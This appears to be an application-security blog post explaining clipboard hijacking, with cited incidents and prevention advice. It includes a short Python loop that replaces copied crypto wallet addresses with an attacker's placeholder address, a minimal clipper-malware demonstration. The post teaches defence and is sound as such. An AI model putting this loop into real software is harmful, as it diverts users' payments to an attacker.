

We regularly copy and paste stuff. Sometimes, the copied characters contain important information such as bank numbers or crypto wallet addresses. Attackers can replace the copied address with an address under their control. Hence you might accidentally transfer money to an attacker instead of your original target.

## Why it Matters

I suspect that malware is using the clipboard all the time to steal credentials, but I haven’t found many reputable sources for specific cases:

* 2020: An iOS update revealed that several apps were reading the clipboard without their users’ knowledge ([source](https://www.avira.com/en/blog/recently-revealed-are-apps-secretly-reading-your-clipboard))
* 2019: Fake MetaMask App That Hijacks Ethereum dApps was in the Android Play Store ([source](https://bitcoinist.com/google-play-store-metamask-malware/))
* 2019: The archive server of the PaleMoon browser was hijacked using ClipBanker ([source](https://www.zdnet.com/article/pale-moon-says-hackers-added-malware-to-older-browser-versions/))

## How is Clipboard Hijacking executed?

Clipboard Hijacking requires malware to be executed on the victim’s machine. It only works on end users’ machines as servers typically don’t have anything in the clipboard.

Reading the clipboard can be done in any language. For example, with JavaScript:

```html
<!DOCTYPE html>
<html>
<body>
    <button onclick="readClipboard()">Read Clipboard</button>
    Clipboard:
    <p id="output"></p>
    <script>
        function readClipboard() {
            navigator.clipboard.readText()
                .then(text => {
                    document.getElementById("output").textContent = text;
                })
                .catch(err => {
                    console.error('Failed to read clipboard: ', err);
                });
        }
    </script>
</body>
</html>
```

However, the browser only allows it if the user gives consent:

<figure>
    <a href="../images/2023/01/clipboard-hijacking-2.png"></a>
    <figcaption>Chrome always asks for permission to read the Clipboard</figcaption>
</figure>

However, browser extensions are a different story.

You can also read the clipboard with Python or any other programming language. There the users are not protected by the operating system. Once the software is installed, it can access the clipboard:

```python
import pyperclip

pyperclip.paste()
```

Malicious software can be downloaded onto a victim’s computer and can then monitor the clipboard for sensitive information, such as passwords or credit card numbers. Once the malware detects this information, it can send it back to the attacker.

Besides stealing clipboard contents, they can also be manipulated. For example, if the malware detects a bank account number or a crypto wallet address in the clipboard, it could change the contents to the attackers address. It can look like this:

```python
import time
import pyperclip

while True:
    content = pyperclip.paste()
    if content.startswith("0x"):
        # Detected a wallet address
        attackers_address = "0x0000000000000000000000000000000000000000"
        pyperclip.copy(attackers_address)
    time.sleep(1)
```

## How can I prevent Clipboard Hijacking?

First and foremost: Make sure you don’t get malware on your machines. The two most important points are to (1) only install trustworthy software and (2) install security updates.

I’m uncertain if Antivirus software can see if other software accesses the clipboard. I don’t think so. That means the contents of the clipboard cannot be protected from malware running on your machine.

<!-- series: appsec -->
